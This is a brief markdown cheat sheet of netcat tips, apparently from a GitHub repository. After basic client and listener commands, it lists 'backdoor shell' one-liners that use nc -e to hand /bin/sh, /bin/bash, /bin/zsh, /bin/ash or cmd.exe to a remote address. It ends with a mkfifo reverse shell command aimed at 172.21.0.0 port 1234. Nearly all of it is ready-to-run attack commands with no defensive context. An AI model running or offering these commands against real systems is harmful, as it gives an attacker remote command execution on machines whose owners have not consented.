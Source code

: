 # Netcat Tips

### Fundamentals:

Connect to a netcat client:

* rlwrap nc \[IP Address] \[port]

Connect to a netcat Listener:

* rlwrap nc -lvp \[Localport]

More info on rlwrap: https://linux.die.net/man/1/rlwrap

### Backdoor Shells:

Linux:

* rlwrap nc \[Your IP Address] -e /bin/sh
* rlwrap nc \[Your IP Address] -e /bin/bash
* rlwrap nc \[Your IP Address] -e /bin/zsh
* rlwrap nc \[Your IP Address] -e /bin/ash

Windows:

* rlwrap nc -lv \[localport] -e cmd.exe

Linux netcat reverse shell:

* rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.21.0.0 1234 >/tmp/f
